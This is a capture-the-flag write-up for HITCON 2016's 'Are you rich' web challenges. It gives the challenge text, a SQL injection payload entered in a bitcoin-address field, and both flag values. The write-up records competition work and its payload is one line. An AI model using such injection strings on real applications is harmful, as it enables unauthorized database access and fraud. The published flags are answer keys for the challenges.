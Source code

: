 #hitcon 2016 : Are you rich 1 and Are you rich 2
Solved by illustris
##Challenge

###Are you rich?
```
249 Teams solved.
Description
Are you rich? Buy the flag!
http://52.197.140.254/are_you_rich/
ps. You should NOT pay anything for this challenge
Some error messages which is non-related to challenge have been removed
Hint
None
```

###Are you rich 2 ?
```
117 Teams solved.
Description
Are you rich? Buy the flag!
http://52.197.140.254/are_you_rich/
ps. You should NOT pay anything for this challenge
Some error messages which is non-related to challenge have been removed
Hint
None
```

##Solution
I looked up the richest bitcoin wallet. As of when I wrote this, it was
>https://bitinfocharts.com/bitcoin/address/3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v

Both flags can now be obtained by SQL injection
>3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v' UNION SELECT '3Nxwenay9Z8Lc9JBiywExpnEFiLp6Afp8v';#

Flag 1:
>hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}

Flag 2:
>hitcon{u51n6_07h3r_6uy5_b17c0n_70_byp455_ch3ck1n6_15_fun!!}